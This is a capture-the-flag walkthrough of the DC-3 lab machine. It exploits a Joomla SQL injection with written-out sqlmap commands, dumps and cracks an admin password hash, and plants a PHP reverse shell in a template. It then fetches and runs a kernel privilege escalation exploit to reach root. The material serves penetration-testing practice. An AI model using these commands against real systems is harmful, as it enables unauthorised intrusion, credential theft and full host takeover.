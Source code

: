 # DC - 3

directory enumeration

![](../.gitbook/assets/1111111111111111%20%2814%29.png)

nmap enumeration

![](../.gitbook/assets/1111111111111111%20%284%29.png)

the scan results show a joomla cms:

![](../.gitbook/assets/aaaaaaaaaaaaa%20%2812%29.png)

the admin pannel of joomla is in /administrator directory:

![](../.gitbook/assets/aaaaaaaaaaaaa%20%2815%29.png)

lets enumerate it with joomscan:

```text
joomscan --url http://192.168.56.126 -ec
```

![](../.gitbook/assets/aaaaaaaaaaaaa%20%2819%29.png)

searchsploit  shows that this version is vulnerable 

![](../.gitbook/assets/aaaaaaaaaaaaa%20%2813%29.png)

lets read the exploit:

```text
cat `locate 42033.txt`
```

![](../.gitbook/assets/aaaaaaaaaaaaa%20%2814%29.png)

this is a SQLi, we can use sqlmap  as shown in the exploit guide :

```text
sqlmap -u "http://192.168.56.160/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent --dbs -p list[fullordering]
```

![](../.gitbook/assets/aaaaaaaaaaaaa%20%2816%29.png)

we have the databases, lets find the tables:

```text
sqlmap -u "http://192.168.56.160/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent  -p list[fullordering] -D joomladb --tables
```

![](../.gitbook/assets/aaaaaaaaaaaaa%20%2820%29.png)

and the coulmns:

```text
sqlmap -u "http://192.168.56.160/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent  -p list[fullordering] -D joomladb -T '#__users'  --columns
```

![](../.gitbook/assets/aaaaaaaaaaaaa%20%285%29.png)

then dump the username and password columns:

```text
sqlmap -u "http://192.168.56.160/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent  -p list[fullordering] -D joomladb -T '#__users'  -C username --dump
```

![](../.gitbook/assets/aaaaaaaaaaaaa%20%2817%29.png)

```text
sqlmap -u "http://192.168.56.160/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent  -p list[fullordering] -D joomladb -T '#__users'  -C password --dump

```

![](../.gitbook/assets/aaaaaaaaaaaaa%20%284%29.png)

```text
admin
$2y$10$DpfpYjADpejngxNh9GnmCeyIHCWpL97CVRnGeZsVJwR0kWFlfB1Zu
```

save it in this format:

```text
admin:$2y$10$DpfpYjADpejngxNh9GnmCeyIHCWpL97CVRnGeZsVJwR0kWFlfB1Zu
```

and run john to crack it:

```text
john hash
```

![](../.gitbook/assets/aaaaaaaaaaaaa%20%282%29.png)

admin : snoopy

login as admin in the cms admin login page:

{% embed url="http://192.168.56.160/administrator/" %}

![](../.gitbook/assets/aaaaaaaaaaaaa%20%288%29.png)

we have a template named protostart which is known for its vulnerability in joomla platforms \(google search\)

we can use this template to create a php shell on target system:

![](../.gitbook/assets/aaaaaaaaaaaaa.png)

i use pentest monkey reverse php shell :

/usr/share/webshells/php/php-reverse-shell.php

change the ip and port

![](../.gitbook/assets/aaaaaaaaaaaaa%20%2811%29.png)

copy the content of the payload in the file content section:

![](../.gitbook/assets/aaaaaaaaaaaaa%20%286%29.png)

![](../.gitbook/assets/aaaaaaaaaaaaa%20%283%29.png)

now start a netcat listener and open the shell url in the browser:

{% embed url="https://192.168.56.160/templates/protostar/shell.php" %}

![](../.gitbook/assets/aaaaaaaaaaaaa%20%287%29.png)

lets get root:

ubuntu version 16.04

searchsploit ubuntu 16.04 local privilege escalation

![](../.gitbook/assets/aaaaaaaaaaaaa%20%2810%29.png)

wget [https://github.com/offensive-security/exploitdb-bin-sploits/raw/master/bin-sploits/39772.zip](https://github.com/offensive-security/exploitdb-bin-sploits/raw/master/bin-sploits/39772.zip)

unzip 39772.zip

cd 39772

tar xvf exploit.tar

cd ebpf\_mapfd\_doubleput\_exploit/

./compile.sh

./doubleput

![](../.gitbook/assets/aaaaaaaaaaaaa%20%2818%29.png)

![](../.gitbook/assets/aaaaaaaaaaaaa%20%289%29.png)

done !





















